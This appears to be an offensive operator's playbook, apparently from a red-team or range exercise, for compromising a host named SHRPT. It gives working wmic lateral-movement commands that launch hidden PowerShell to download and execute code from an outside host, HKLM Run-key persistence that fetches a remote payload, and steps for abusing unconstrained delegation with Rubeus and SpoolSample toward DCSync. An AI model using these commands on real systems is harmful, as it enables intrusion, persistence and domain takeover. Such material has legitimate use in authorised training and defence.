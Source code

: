 ![[attachments/Plan_image_18_20231011013207.png]]


I renamed this `HelDesk` and turned it yellow.

--------

<h1><center> SHRPT</center></h1>

## Lateral Move (wmic) 

Make sure that you are interacting with the S6 beacon and then run this command:

```shell
shell wmic /node:"mda-shrpt.mda.mil" process call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://video.memezilla.com.cn/home'))\""
```
>[!info] /Home payload setup
>[[Vulnerability and Range Setup#URI for wmic]]

![[attachments/Plan_image_19_20231011013207.png]]

A beacon should come back as the elevated token of the S6 user. You will notice that the computer logo is red and that the name has an asterisk. This is a local administrator account with an elevated token. This means that they have control of the system, but they can't do anything on the domain. Fortunately for us, we only need system access because the machine account has unconstrained delegation.

I changed the color to red and renamed it "SHRPT".
## Persistence SHRPT

First, lay your persistence just as you did previously. This time put it in HKLM instead of HKCU.
>[!info] Click below for how to perform persistence with invisreg
[[Plan#Initial Persistence with invisreg|Persistence Guide]]

The updated command:
```
shell PCHealthCheck.exe --key HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\backup --type REG_SZ --create --value "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://www.google.com.co:80/index.php'))\""
```

## Exploiting Unconstrained Delegation

Next you need to prepare two commands in two different beacons. First you will need to run rubeus in memory on SHRPT to monitor for new tickets. Then you will need to quickly use spoolsample from a domain context (in this case the S6 beacon). Prepare the commands so that you can send them both very quickly.

on XXX-SHRPT


>[!warning] Tickets Expire!
>Do this right before the DCsync or any other action requiring the ticket, since they expire.
